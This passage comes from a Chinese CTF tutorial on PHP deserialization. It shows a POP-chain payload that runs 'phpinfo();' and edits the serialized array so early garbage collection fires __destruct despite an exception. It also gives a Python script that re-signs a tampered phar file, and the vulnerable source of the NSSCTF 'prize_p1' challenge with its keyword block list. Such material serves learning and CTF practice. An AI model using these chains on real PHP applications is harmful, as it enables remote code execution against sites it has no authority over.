 如果我们向最后一行的unserialize之后再添加`throw new Exception`，我们会发现原来的phpinfo界面立刻就会消失，阻止`__destruct`的执行

针对这种情况，我们选择将对象插在有`NULL`元素的数组中

```php
$e1 = new errorr0();
$e2 = new errorr1();
$e3 = new errorr2();

$e3->err = "phpinfo();";
$e2->err = $e3;
$e1->num = $e2;

$c = array(0=>$e1, 1=>NULL);
// a:2:{i:0;O:7:"errorr0":1:{s:3:"num";O:7:"errorr1":1:{s:3:"err";O:7:"errorr2":1:{s:3:"err";s:10:"phpinfo();";}}}i:1;N;}
// a:2:{i:0;O:7:"errorr0":1:{s:3:"num";O:7:"errorr1":1:{s:3:"err";O:7:"errorr2":1:{s:3:"err";s:10:"phpinfo();";}}}i:0;N;}
```

而直接serialize($c)的结果也无法达到预期，数组中i=0是我们的对象，i=1是NULL，我们手动把i:1改为i:0，也就是改为NULL 让其失去引用，提前GC触发`__destruct`

### phar中的应用

而这种改动在phar中会造成签名错误（phpstorm会无法再识别），需要重新生成签名（不过依旧无法识别）

```python
from hashlib import sha1

file = open("arsenetang.phar","rb").read()
text = file[:-28]  # 读取开始到末尾除签名外内容
last = file[-8:]   # 读取最后8位的GBMB和签名flag
new_file = text+sha1(text).digest() + last  # 生成新的文件内容 此时sha1正确

open("change.phar","wb").write(new_file)
```

### [NSSCTF 2021]prize_p1

```php
<?php
highlight_file(__FILE__);
class getflag {
    function __destruct() {
        // echo getenv("FLAG");    // 目标
        echo "flag{111}";   // 本地测试
    }
}

class A {
    public $config;
    function __destruct() {
        if ($this->config == 'w') {
            $data = $_POST[0];  // 传入phar内容
            if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
                die("我知道你想干吗，我的建议是不要那样做。");
            }
            file_put_contents("./tmp/a.txt", $data);    // 传入phar内容
        } else if ($this->config == 'r') {
            $data = $_POST[0];  // 文件路径
            if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
                die("我知道你想干吗，我的建议是不要那样做。");
            }
            echo file_get_contents($data);  // phar触发反序列化
        }
    }
}
```